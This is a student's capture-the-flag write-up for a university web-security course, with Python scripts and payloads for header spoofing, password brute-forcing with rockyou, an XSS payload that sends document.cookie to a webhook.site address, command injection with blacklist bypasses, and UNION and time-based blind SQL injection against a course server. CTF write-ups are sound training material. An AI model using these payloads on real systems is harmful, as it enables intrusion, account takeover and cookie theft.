






# 2023 NCU ADL CTF Writeups --- `web`

<div align="right">
    <p>
        <a href="https://1chooo.github.io/ctf-writeups/"><b>👨🏻‍💻 Home</b></a> |
        <a href="https://1chooo.github.io/ctf-writeups/pwn/"><b>🔒 <code>pwn</code></b></a> |
        <a href="https://1chooo.github.io/ctf-writeups/web/"><b>🌏 <code>web</code></b></a> |
        <a href="https://github.com/1chooo/ctf-writeups/tree/main/web/"><b>⌚️ GitHub</b></a>
    </p>
</div>

## 01. Monster



### Solution

#### Step 1: 先照著題目的提示，使用 `GIVEMEFLAG` method 進入

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index.html', 'w') as output_file:
    output_file.write(response.text)
```

當我們真的用了 `GIVEMEFLAG` 進入了，我們可以觀察網頁的 source code `<h1>` tag 的內容換成了 `Your IP must be 127.0.0.1.`。



#### Step 2: 透過 `X-Forwarded-For` header 來滿足題目的 `IP` 要求

接著我們照著指示要把 `IP` 變成 `127.0.0.1.` 但是我們沒辦法直接透過 `Host` header 來改變 `IP`，因為會被擋掉，因此我們需要透過 `X-Forwarded-For` header 來改變 `IP`。

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "http://140.115.59.7:12002/",
    "X-Forwarded-For": "127.0.0.1"  # Step 2
}

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index.html', 'w') as output_file:
    output_file.write(response.text)
```

當我們真的用了 `X-Forwarded-For` header 來改變 `IP` 為 `127.0.0.1.` 後，我們可以觀察網頁的 source code `<h1>` tag 的內容換成了 `You must come from https://www.adlSecurity.com.`。



#### Step 3: 透過 `Referer` header 來滿足題目的 `Referer` 要求

接著我們照著指示要把 `Referer` 變成 `https://www.adlSecurity.com.` 但是我們沒辦法直接透過 `Host` header 來改變 `Referer`，因為會被擋掉，因此我們需要透過 `Referer` header 來改變 `Referer`。

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "https://www.adlSecurity.com", # Step 3
    "X-Forwarded-For": "127.0.0.1"  # Step 2
}

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index3.html', 'w') as output_file:
    output_file.write(response.text)
```



接著我們保持上面的要求設定：使用 `GIVEMEFLAG` method， `x-forwarded-for` 保持 `127.0.0.1.` 和 `referer`，並且把 `host` 改成 `www.adlSecurity.com`，就可以進到 `admin/`。



### Step 4: 找出帳號密碼

我們可以根據提示 `Now, you must loginhitori & 🤘rockyou!!!` 來找出帳號密碼，因此我們可以使用 [`rockyou.txt`](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) 來爆破帳號密碼。

```py
from base64 import b64encode
import requests
from bs4 import BeautifulSoup
from requests.exceptions import ReadTimeout, ConnectTimeout

method = "GIVEMEFLAG"
login_url = 'http://140.115.59.7:12002/admin'
login_headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "https://www.adlSecurity.com", # Step 3
    "X-Forwarded-For": "127.0.0.1",  # Step 2
    "Authorization": None,
}


def set_login(username, password):
    authorization = b64encode(f"{username}:{password}".encode('utf-8')).decode('ascii')
    login_headers["Authorization"] = f"Basic {authorization}"

count = 0
with open('rockyou.txt', 'r', encoding='latin-1') as rockyou:
    for line in rockyou:

        count += 1
        line = line.strip()
        print(f"try {count} password: {line}")
        set_login("hitori", line)
        while True:
            try:
                response = requests.request(
                    method=method, 
                    url=login_url, 
                    headers=login_headers, 
                    timeout=1
                )
                break
            except ReadTimeout:
                print("read timeout, retry")
            except ConnectTimeout:
                print("connect timeout, retry")
        
        if response.status_code == 200:
            print(f"found password!: {line}")
            soup = BeautifulSoup(response.text, 'html.parser')
            tag_content = soup.find('code').text.strip()
            print("Content within <code> tags:")
            print(tag_content)  # flag is here!!!
            break
```

最後我們利用上面找到的帳號密碼來登入，並且使用 `GIVEMEFLAG` method ， `x-forwarded-for` 保持 `127.0.0.1.` 和 `referer`，並且把 `host` 改成 `www.adlSecurity.com`，再加上最後爆破出來的密碼，就可以拿到 flag。

**這樣就拿到 flag 了！！！**



## 03. Meow
    
```py
import requests
import json

url_submit = "http://140.115.59.7:12004/api/submit"
url_score = "http://140.115.59.7:12004/api/score"

headers_submit = {
    "Host": "140.115.59.7:12004",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    "Content-Type": "application/json",
    "Accept": "*/*",
    "Origin": "http://140.115.59.7:12004",
    "Referer": "http://140.115.59.7:12004/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7,ja;q=0.6,zh-CN;q=0.5,yo;q=0.4",
    "Cookie": "session=.eJwNwoENwCAIBMBdmADwK9ptQCFxhqa7t5d7KM-mm3Kx9ynCnWcJ70LTMkCikv-o2Fzm5sBlrTQjdDUfS8eYMHo_BF4Ulg.ZZEk1A.x2q5KgJIfuXayc_2fHhFBBTQqxY",
    "Connection": "close"
}

headers_score = {
    "Host": "140.115.59.7:12004",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    "Accept": "*/*",
    "Referer": "http://140.115.59.7:12004/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7,ja;q=0.6,zh-CN;q=0.5,yo;q=0.4",
    "Cookie": "session=.eJwNwoENwCAIBMBdmADwK9ptQCFxhqa7t5d7KM-mm3Kx9ynCnWcJ70LTMkCikv-o2Fzm5sBlrTQjdDUfS8eYMHo_BF4Ulg.ZZEk1A.x2q5KgJIfuXayc_2fHhFBBTQqxY",
    "Connection": "close"
}

data = [ [None for i in range(10)] for _ in range(10)]

for i in range(10):
    for j in range(10):
        for ans in range(4):
            data[i][j] = ans
            requests.post(url_submit, headers=headers_submit, data=json.dumps(data))
            response = requests.get(url_score, headers=headers_score)
            if i*10 + j+1 == response.json()["data"]["score"]:
                print(f"ans: {ans}")
                break
            
print(data)
```

## 04. MSG Board

```js
<div>
    <iframe
        onload="window.location.href='https://webhook.site/64b07ebb-14b9-4b5a-91f8-bd5a5413c0cb'+escape(document.cookie)">
</div>

</div><iframe
    onload="window.location.href='https://webhook.site/64b07ebb-14b9-4b5a-91f8-bd5a5413c0cb'+escape(document.cookie)">
    <div></div>
```

## 05. Command Injection

```php
<?php if (isset($_POST['json'])) : ?>
    <section class="has-text-left">
        <p>Result:</p>
        <pre><?php
        $blacklist = ['|', '&', ';', "\n", '?', '*', '$', 'cat', 'flag'];
        $is_input_safe = true;
        foreach ($blacklist as $bad_word)
            if (strstr($_POST['json'], $bad_word) !== false) $is_input_safe = false;

        if ($is_input_safe)
            system("echo '" . $_POST['json'] . "'| jq .bocchi");
        else
            echo '';
        ?></pre>
    </section>
<?php endif; ?>
```

這段 PHP 代碼的主要功能是處理來自表單 POST 請求的資料，並對資料進行安全性檢查和處理。

1. **條件檢查：**  
   這段代碼開始於 `<?php if (isset($_POST['json'])) : ?>`，它首先檢查是否有名為 'json' 的資料以 POST 方式提交到這個網頁。

2. **顯示結果區域：**  
   如果有 'json' 資料提交，就會進入下一個部分，其中包含了以下內容：

   - **設置黑名單：**  
     ```php
     $blacklist = ['|', '&', ';', "\n", '?', '*', '$', 'cat', 'flag'];
     ```
     這行程式碼定義了一個 `$blacklist` 陣列，其中包含了一些可能會被用來試圖操縱系統的特殊字符或字串，例如命令注入字符 (`|`, `&`, `;` 等) 和特定字詞 (`cat`, `flag` 等)。

   - **安全性檢查：**  
     ```php
     $is_input_safe = true;
     foreach ($blacklist as $bad_word) {
         if (strstr($_POST['json'], $bad_word) !== false) {
             $is_input_safe = false;
         }
     }
     ```
     使用 `foreach` 迴圈遍歷黑名單，檢查提交的 'json' 資料是否包含黑名單中的任何字符或字串。如果發現任何不安全的字詞，則會將 `$is_input_safe` 設置為 `false`。

   - **安全性處理和輸出：**
     ```php
     if ($is_input_safe) {
         system("echo '" . $_POST['json'] . "'| jq .bocchi");
     } else {
         echo '';
     }
     ```
     如果提交的 'json' 資料通過安全性檢查 (`$is_input_safe` 是 `true`)，則會執行一個系統命令使用 `system()`。這個命令使用 'jq' 工具（一個命令行下的 JSON 處理器）從提交的 JSON 資料中提取 'bocchi' 鍵的值，並在 `<pre>` 標籤中顯示它。

   - **處理不安全的輸入：**
     如果輸入被判定為不安全（包含黑名單中的內容），則會顯示一張圖片 (`nanana.gif`)，以預防性方式取代執行 'jq' 命令，這樣做可以防止處理不安全的輸入可能帶來的安全風險。

### Keyword繞過 [^1]

- String Concat
    - `A=fl;B=ag;cat $A$B`
- Empty Variable
    - `cat fl${x}ag`
    - `cat tes$(z)t/flag`
    
- Environment Variable
    - `$PATH => "/usr/local/….blablabla”`
        - `${PATH:0:1}   => '/'`
        - `${PATH:1:1}   => 'u'`
        - `${PATH:0:4}   => '/usr'`
    - `${PS2}` 
        - `>`
    - `${PS4}`
        - `+`
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
        - `cat "fl""ag"`

- 反斜線
    - `c\at fl\ag`


### Solution

因為從題目中我們可以看到，`cat` 和 `flag` 都在黑名單中，因此如果我們直接注入 `{"bocchi":"'`cat flag`'"}` 會得不到我們要的內容，會被原始碼裡的程式邏輯給擋掉，因此我們先嘗試了 `{"tenshi": "Ijichi Nijika", %%"bocchi"%%: "Goto Hitor-"}` 發現不會進到 else 但是也無法成功注入，後來我們找到了 Keyword 繞過的方法，在 `cat` 以及 `flag` 之中添加一些可以繞過的字串，也就是說還是會組成 `cat flag` 但是中間加上的字元會被繞過，因此我們最後注入的 payload 為：

1. <code>{"tenshi": "Ijichi Nijika", "bocchi":"'`tac f[l]ag`'"}</code>
2. <code>{"bocchi":"'`tac f[l]ag`'"}</code>
3. <code>{"bocchi":"'`c""at fl""ag`'"}</code>
4. <code>{"bocchi":"'`c\at fl\ag"}</code> (Not Successful)

我們也試過把 `cat` 給相反過來，並且在 `flag` 使用 keyword 繞過，也是有成功拿到 flag，注入的 payload 為：
1. <code>{"bocchi":"'`tac f[l]ag`'"}</code>

並且寫了一個 Python Script 來做注入，最後成功拿到 flag。

```python
import requests
from bs4 import BeautifulSoup

def send_json_to_form(json_data):
    url = 'http://140.115.59.7:12001/'

    # Set the data to be sent
    data = {
        'json': json_data
    }

    try:
        response = requests.post(url, data=data)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            tag_content = soup.find('pre').text.strip()
            print("Content within <pre> tags:")
            print(tag_content)
        else:
            print("Error occurred, unable to send JSON data to the form.")
    except requests.RequestException as e:
        print("An exception occurred:", e)

# JSON data to send

json_to_send = '''{"bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"tenshi": "Ijichi Nijika", "bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"bocchi":"'`tac f[l]ag`'"}'''
json_to_send = '''{"bocchi":"'`c""at fl""ag`'"}'''

# Call the function to send JSON data to the form
send_json_to_form(json_to_send)
```

## 06. SQL Injection 1

```php
<?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<?php
$host = 'isostagram_db';
$dbuser = 'MYSQL_USER';
$dbpassword = 'MYSQL_PASSWORD';
$dbname = 'ctf_users';
$link = mysqli_connect($host, $dbuser, $dbpassword, $dbname);

$loginStatus = NULL;
$username = $_POST['username'];
$password = $_POST['password'];

if (isset($username) && isset($password)) {
    error_log('POST: [' . $username . '] [' . $password . ']');
    if ($link) {
        $blacklist = array("ununionion", "union", "selselectect", "select", "where", "and", "or");
        $replace = array("", "", "", "", "","","");
        $username = str_ireplace($blacklist, $replace, $username);
        $password = str_ireplace($blacklist, $replace, $password);
        $sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";
        $query = mysqli_query($link, $sql);
        @$fetchs = mysqli_fetch_all($query, MYSQLI_ASSOC);
        if (@count($fetchs) > 0) {
            foreach ($fetchs as $fetch) {
                if ($fetch["username"] === 'idtjohn88' && $fetch["password"] === $password) {
                    $loginStatus = True;
                    break;
                }
                $loginStatus = False;
            }
        } else {
            $loginStatus = False;
        }
    } else {
        $loginStatus = NULL;
    }
} else {
    $loginStatus = NULL;
}
?>
```

從上面的 Source Code 我們看到了一個重點：

```php
if ($fetch["username"] === 'idtjohn88' && $fetch["password"] === $password) {
    $loginStatus = True;
    break;
}
```

我們會需要一個名為 `idtjohn88` 的使用者，

```py
import requests

# Define the target URL
url = 'http://140.115.59.7:12005/'  # Replace 'your_website_url_here' with the actual URL

# Set your username and password
# username = '''AND 1=1--'''
# password = '''AND 1=1--'''

# username = '''' or '1'='1'''
# password = '''' or '1'='1'''

# username = '''idtjohn88'''
# password = '''' or '1'='1'''

username = '''' uniounionn selecselectt NULL, 'idtjohn88', 'z'-- '''
password = '''z'''


# Craft the POST request data
data = {
    'username': username,
    'password': password,
    'submit': 'ログイン'  # Replace with the appropriate button text if needed
}

# Send the POST request
response = requests.post(url, data=data)

# Check if the login status message is present in the response HTML
if 'alert alert-danger d-flex align-items-center' in response.text:
    # If the login status message is found, print it
    print("Login failed: Invalid username or password")
else:
    # If the login status message is not found, consider the login successful
    print("SQL Injection successful!")
```

## 07. SQL Injection 2

接續上題

```py
import requests
import time

# Define the URL and the POST data
url = "http://140.115.59.7:12005/"
data = {
    "username": None,
    "password": "arbitrary password",
    "submit": "",
}

# Headers based on the provided HTTP request
headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7,ja;q=0.6,zh-CN;q=0.5,yo;q=0.4",
    "Connection": "close",
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://140.115.59.7:12005",
    "Referer": "http://140.115.59.7:12005/"
}


# password character
lowercase_letters = list('abcdefghijklmnopqrstuvwxyz')
uppercase_letters = list('ABCDEFGHIJKLMNOPQRSTUVWXYZ')
digits = list('0123456789')
special_characters = list('!@#$%^&*()-_=+[]{}|;:\'",.<>/?`~\\')

# Combine all the characters
combined_list = (
    lowercase_letters + 
    uppercase_letters + 
    digits + 
    special_characters
)

flag = ""
count = 1
# Measure the time taken for the request
while True:
    for char in combined_list:
        # SQL injection
        data["username"] = f"' oorr IF((BINARY SUBSTRING((sselectelect `passwoorrd` from users wwherehere `username`='idtjohn88'),{count},1)='{char}'), SLEEP(1),0) -- "

        start_time = time.time()
        response = requests.post(
            url=url, 
            data=data, 
            headers=headers
        )
        end_time = time.time()

        # Calculate the duration
        duration = end_time - start_time
        print(f"char: {char} Duration: {duration.__round__(2)} seconds")
        # time.sleep(1)
        if duration > 5:
            flag = flag + char
            print(flag)
            count += 1
            break
```

## CONTACT INFO.

> AWS Educate Cloud Ambassador, Technical Support 
> <br>
> **Hugo ChunHo Lin**
> 
> <aside>
>   📩 E-mail: <a href="mailto:hugo970217@gmail.com">hugo970217@gmail.com</a>
> <br>
>   🧳 Linkedin: <a href="https://www.linkedin.com/in/1chooo/">Hugo ChunHo Lin</a>
> <br>
>   👨🏻‍💻 GitHub: <a href="https://github.com/1chooo">1chooo</a>
>    
> </aside>

## License
Released under [MIT](https://1chooo.github.io/my-uni-courses/LICENSE) by [Hugo ChunHo Lin](https://github.com/1chooo).

This software can be modified and reused without restriction.
The original license must be included with any copies of this software.
If a significant portion of the source code is used, please provide a link back to this repository.

[^1]: [Command Injection#keyword 繞過](https://github.com/w181496/Web-CTF-Cheatsheet?tab=readme-ov-file#command-injection)


<div align="center">
    <p>
        <a href="https://github.com/1chooo" target="_blank"><b>👨🏻 GitHub</b></a> |
        <a href="https://www.linkedin.com/in/1chooo/" target="_blank"><b>👨🏻‍💻 Linkedin</b></a> |
        <a href="https://1chooo-github-io-1chooo.vercel.app/" target="_blank"><b>👨🏻‍💻 Portfolio</b></a> |
        <a href="https://1chooo.github.io/1chooo-blog/" target="_blank"><b>📓 Blog</b></a> |
        <a href="https://1chooo.com/cv.pdf" target="_blank"><b>🧳 Resume</b></a> |
        <a href="https://medium.com/@1chooo" target="_blank"><b>📠 Medium</b></a> |
        <a href="https://www.youtube.com/channel/UCpBU1rXOfdTtxX939f_P_dA" target="_blank"><b>🎥 YouTube</b></a>
    </p>
    <div>
        <b>‘’𝘿𝙧𝙚𝙖𝙢𝙨 𝙘𝙤𝙢𝙚 𝙩𝙧𝙪𝙚, 𝙬𝙝𝙚𝙣 🫵🏻 𝙙𝙤𝙣’𝙩 𝙨𝙡𝙚𝙚𝙥…’’</b>
    </div>
    <div>
        <b>©2023-2024  Hugo H. Lin</b>
    </div>
</div>
